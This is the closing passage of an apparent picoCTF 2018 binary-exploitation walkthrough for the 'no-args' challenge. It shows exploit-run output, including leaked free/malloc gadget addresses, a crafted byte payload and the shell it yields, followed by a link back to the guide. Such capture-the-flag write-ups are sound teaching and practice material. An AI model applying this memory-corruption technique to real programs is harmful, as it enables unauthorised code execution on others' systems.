 ```
> Vote for your Favorite Problems from picoCTF 2018!
WROTE FREE GADGET ADDR: 0x7F98CA34E26A
WROTE MALLOC GADGET ADDR: 0x7F98CA328B5A (calls free)
1. Choose a Problem
2. Vote for a Problem
3. View Results
4. Exit
>
2

n
List Problems? (y/n) Which Problem do you want to vote for?
choose
> You can't choose choose because that was last year's master pwn, NO arguments! Would you like to vote for this year's instead?
b'yes\x00                            \x10 `\x00\x00\x00\x00\x00\xff'
> Vote for your Favorite Problems from picoCTF 2018!
1. Choose a Problem
2. Vote for a Problem
3. View Results
4. Exit
>
1

Enter the Name of the Problem you want to Vote for
>
pwn

[*] Switching to interactive mode
$ ls
libc.so.6   no-args noargs_pwn.py no-args.c
$ exit
```
{:.contains-term}

</div>
    </div>
  </div>
</div>

**Boom**! *Good job*, you've now completed every binary exploit challenge in PicoCTF 2018! Head back to the [PicoCTF 2018 BinExp Guide]({% link _reference/hacking-101/picoctf-2018-binary-exploits.md %}) to review any you may have missed along the way.
